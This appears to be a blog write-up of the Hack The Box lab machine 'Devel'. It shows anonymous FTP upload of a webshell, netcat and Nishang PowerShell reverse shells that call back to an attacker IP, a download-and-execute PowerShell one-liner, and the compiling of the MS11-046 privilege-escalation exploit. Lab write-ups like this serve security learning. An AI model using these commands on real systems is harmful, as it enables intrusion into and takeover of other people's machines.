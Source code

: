 ```yaml
---
layout: post
title:  "HTB: Devel"
date:   2021-03-06 19:00:00 +1100
category: hacking
---
```


## Devel
Following on from Blue in number of pwns is Devel. I'm going in blind.

## Ports
Just FTP and HTTP on this one. The detail scan says anonymous FTP is allowed and the webserver is Microsoft IIS httpd 7.5.

## Shell
We can login to FTP and put files. I'm far - far - from expert at Windows, but I copy the included *aspx* webshell from the default Kali installation and upload it. With this I can run commands in the browser; but I'm a low privileged user:

>iis apppool\web

I upload *winpeas.bat* but I'm not entirely sure where to go next. I go get the [Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng) and clone it and run it against the output of *systeminfo* on the box. Which shows, amongst other things:

>OS Name:                   Microsoft Windows 7 Enterprise  
OS Version:                6.1.7600 N/A Build 7600

The *WES* script says:

>Installed hotfixes: None  

And it comes up with **236** potential vulnerabilities. Wew lad.

## Writeups
Even though there are apparently myriad opportunities for moving forward, it's not clear to me what the best thing to do is. I consult a thorough writeup from [0xdf](https://0xdf.gitlab.io/2019/03/05/htb-devel.html).

### Next step
0xdf shows a method for copying files to the Windows host using *netcat*. It's not entirely necessary in this case since we can just use the FTP upload but it's good practice. We use a python SMB server:

``
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share smb
``

We need the compiled *nc* binary to copy to the box:

``
cp /usr/share/windows-resources/binaries/nc.exe .
``

We need a listener:

``
nc -lnvp 443
``

And we send this to the webshell:

``
\\10.10.14.2\share\nc.exe -e cmd.exe 10.10.14.2 443
``

And ... nothing. Actually that's not true; I can see it is transferring the file over the SMB server but it's not triggering the reverse shell.

I check some other resources, kill my sambaserver and try again:

``
python3 /usr/share/doc/python3-impacket/examples/smbserver.py ROPNOP ./
``

Now I can run this on the webshell:

``
dir \\10.10.14.2\ROPNOP
``

And I can see my files. Let's try this on the webshell:

``
\\10.10.14.2\ROPNOP\nc.exe -e cmd.exe 10.10.14.2 443
``

Success!

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/devel]
└─# nc -nvlp 443    
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.5] 49164
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
{% endhighlight %}

From [here](https://blog.ropnop.com/transferring-files-from-kali-to-windows/#copying-the-files):
>Executing files from SMB. Because of the way Windows treats UNC paths, it’s possible to just execute our binary directly from the SMB share without even needing to copy it over first. Just run the executable as if it were already local and the payload will fire.

Ok, next. 

### Alternative via Nishang
0xdf recommends [Nishang](https://github.com/samratashok/nishang). I clone the repo to /opt/nishang. We copy one of the shells to our local directory:

``
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
``

We have to edit the file, by copying the example line from it to the bottom of the script and editing the host and port:

>Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.2 -Port 443

So the shell definition is in the body of the script, and the call is the line we added. Next, we kill our nc shell (we don't actually use it) and restart the listener, start a python server and send this call to the webshell:

``
powershell iex(new-object net.webclient).downloadstring('http://10.10.14.2/Invoke-PowerShellTcp.p
``

We'll see these things:

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/devel]
└─# python3 -m http.server 80                                                                                                      
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.5 - - [06/Mar/2021 03:22:01] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
{% endhighlight %}

and

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/devel]
└─# nc -nvlp 443                                                                                                                                                                                                   1 ⨯
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.5] 49167
Windows PowerShell running as user DEVEL$ on DEVEL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>
{% endhighlight %}

Okay, now we have a powershell reverse shell instead.

0xdf also shows a meterpreter reverse shell but I'll ignore that for now.

### Privesc
0xdf runs a different vulnerability scanner called [Watson](https://github.com/rasta-mouse/Watson), which shows some potential privesc methods. I'm not sure how he chose which one to use, but it's MS11-046 using a precompiled binary from [here](https://github.com/abatchy17/WindowsExploits). 

I copy it over like he does, and try to run it with the nc shell (powershell version won't run it apparently) and it ... doesn't work. I get this message:

>Program too big to fit in memory

Googling this error message mostly shows people rebooting or whatever; I won't be doing that. Now what?

There is source code for an exploit for MS11-046 in searchsploit. We need to mirror it and compile it, but first we need to install mingw-w64. Here's an excerpt from my history showing the relevant commands:

{% highlight shell %}
2096  searchsploit -m windows_x86/local/40564.c
2099  apt install mingw-w64
2102  mv 40564.c MS11-046.c
2103  i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
{% endhighlight %}

And it's bing, bang, rama-a-lama ding dong!

{% highlight shell %}
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web

c:\windows\system32\inetsrv>\\10.10.14.2\ROPNOP\MS11-046.exe
\\10.10.14.2\ROPNOP\MS11-046.exe

c:\Windows\System32>whoami
whoami
nt authority\system
{% endhighlight %}

Next is OpenAdmin, but I've already done that one when it was live. I'll move onto Netmon, which I've never done.
